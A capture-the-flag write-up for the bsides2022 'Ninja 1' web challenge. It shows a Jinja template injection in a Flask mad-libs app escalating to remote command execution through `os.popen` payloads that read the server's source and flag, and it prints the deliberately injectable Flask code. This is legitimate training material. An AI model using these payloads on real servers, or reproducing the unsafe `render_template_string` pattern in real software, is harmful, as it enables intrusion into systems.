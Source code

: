```yaml
---
title: bsides2022 – Ninja 1
tags: web python flask injection
---
```


## Challenge

> Part 1 of 3: tell me a secret

The provided website showed the following:

```
I just got back from a ___None___(adj1) party with EverSec.
Can you believe we got to eat __None___(adj2) pizza in ____None___(place)?!
Everyone got to choose their own toppings.
I made ___None___(topping1) and __None___(topping2) pizza, which is my favorite! How fun!
If that wasn't good enough already, ___None____(person) was there teaching exploits!
```

## Background

Providing any of the keys in the HTTP query will fill them instead of `None`. So requesting `[URL]?adj1=foo` returns:

```
I just got back from a ___foo___(adj1) party with EverSec. […]
```

Both multiple underscores and `None` indicates that python is at work here.

## Solution

Requesting {%raw%}`[URL]?adj1={{2*3}}`{%endraw%} returns:
```
I just got back from a ___6___(adj1) party with EverSec. […]
```

So it seems like when we escape anything with two curly braces, we have python code execution. And with a bit more exploration, we can get to full code execution: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('[command]').read()}}`{%endraw%}.

Let's see what files we can access: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`{%endraw%} returns `ninja.py`.

Let's get the contents of that file: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('cat ninja.py').read()}}`{%endraw%}:

```python3
from flask import Flask, request, render_template_string
app = Flask(__name__)
app.secret_key = 'flag\{ultimate_jinja_storm3\}'
@app.route('/')
def index():
    a = request.args.get('adj1') or None
    b = request.args.get('adj2') or None
    c = request.args.get('place') or None
    d = request.args.get('topping1') or None
    e = request.args.get('topping2') or None
    f = request.args.get('person') or None
    template = ''' <h1>Mad libs</h1><br><p>I just got back from a ___{a}___(adj1) party with EverSec. Can you believe we got to eat __{b}___(adj2) pizza in ____{c}___(place)?! Everyone got to choose their own toppings. I made ___{d}___(topping1) and __{e}___(topping2) pizza, which is my favorite! How fun! If that wasn't good enough already, ___{f}____(person) was there teaching exploits! </p> '''.format(a = a, b = b, c=c, d=d, e=e, f=f)
    return render_template_string(template)
if __name__ == '__main__': 
    pp.run(host='0.0.0.0', port=8080)
```

This also explains the vulnerability: flask's `render_template_string` escapes code with two curly braces.

And we have our flag: `flag\{ultimate_jinja_storm3\}`